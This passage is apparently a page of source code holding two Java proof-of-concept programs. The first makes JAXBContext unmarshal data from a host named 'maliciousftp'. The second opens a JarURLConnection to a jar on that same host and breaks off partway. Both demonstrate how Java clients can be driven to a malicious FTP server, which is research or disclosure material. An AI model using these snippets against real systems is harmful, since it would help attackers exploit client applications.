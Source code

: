 ## javax.xml.JAXBContext Proof of Concept

```
import java.net.MalformedURLException;
import java.net.URL;

import javax.xml.bind.JAXBContext;
import javax.xml.bind.JAXBException;
import javax.xml.bind.Unmarshaller;

public class UnMarsh {
 public static void main(String[] args) {
  JAXBContext jaxbContext = null;
  try {
   jaxbContext = JAXBContext.newInstance();
  } catch (JAXBException e) {
   e.printStackTrace();
  }
  URL url = null;
  try {
   url = new URL("ftp://maliciousftp:2121/test");
  } catch (MalformedURLException e) {
   e.printStackTrace();
  }
  Unmarshaller jaxbUnmarshaller = null;
  try {
   jaxbUnmarshaller = jaxbContext.createUnmarshaller();
  } catch (JAXBException e) {
   e.printStackTrace();
  }
  try {
   Object test = jaxbUnmarshaller.unmarshal(url);
  } catch (JAXBException e) {
   e.printStackTrace();
  }
 }
}
```

## java.net.JarURLConnection Proof of Concept

```
import java.io.IOException;
import java.net.JarURLConnection;
import java.net.MalformedURLException;
import java.net.URL;
import java.util.jar.Manifest;

public class JavaUrl {

 public static void main(String[] args) {
  URL url = null;
  try {
   url = new URL("jar:ftp://maliciousftp:2121/duke.jar!/");
  } catch (MalformedURLException e) {
   e.printStackTrace();
  }
  JarURLConnection jarConnection = null;
  try {
   jarConnection = (JarURLConnection) url.openConnection();
   jarConnection.setConnectTimeout(5000);
   jarConnection.setReadTimeout(5000);

```